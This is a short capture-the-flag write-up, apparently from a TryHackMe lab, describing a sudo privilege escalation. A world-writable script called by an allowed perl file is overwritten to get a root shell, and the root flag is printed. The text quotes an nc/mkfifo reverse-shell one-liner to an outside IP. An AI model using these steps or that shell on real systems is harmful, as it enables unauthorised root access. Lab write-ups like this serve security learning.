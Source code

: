 1) I search the list of sudo commands :  
```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
```
2) I open the file of backup: 
```
cat /usr/bin/perl /home/itguy/backup.pl
```
4) Inside this file I find: 
```
system("sh",  "/etc/copy.sh")
```
6)I open this file ( /etc/copy.sh): 
```
   cat /etc/copy.sh
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
5) I see all permession that It has this file:  
```
  -rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh
``` 

6) Overwrite the file "copy.sh" : 
```
echo "/bin/bash" > /etc/copy.sh
```
8) I execute like super user the file /usr/bin/perl /home/itguy/backup.pl:                       
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
13) Now that I have the root shell, I enter inside the root directory: 
```
cd /root
```
15) I read the file root.txt: 
```
THM{6637f41d0177b6f37cb20d775124699f}
```
